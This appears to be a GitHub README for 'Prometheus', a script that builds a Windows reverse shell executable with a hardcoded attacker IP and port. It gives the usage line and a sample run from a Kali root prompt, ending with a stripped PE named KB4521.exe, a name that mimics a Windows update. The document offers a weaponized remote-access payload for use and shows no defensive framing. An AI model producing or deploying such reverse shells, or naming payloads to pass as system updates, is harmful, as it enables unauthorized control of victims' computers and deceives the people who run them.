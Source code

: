 # Prometheus
Prometheus quickly generates and compiles a new reverse shell PE with a hardcoded socket address.  

[Usage]: ./prometheus.sh <IP> <PORT>

[Example]:

root@kali:/opt/Prometheus# ./prometheus.sh 78.55.64.3 443

+----------------------------------------------------+
|  Adversarial Informatics Weaponized C++ Rev Shell  |
|               cygienesolutions.com                 |
|        [Usage]: ./prometheus.sh <IP> <PORT>        |
+----------------------------------------------------+


Building Custom Reverse Shell Executable...


Souce code complete...
Compiling...


Cleaning up...


Done. 
Support The Free Information Movement

-rwxr-xr-x 1 root root 13312 Feb  1 10:44 KB4521.exe
KB4521.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows

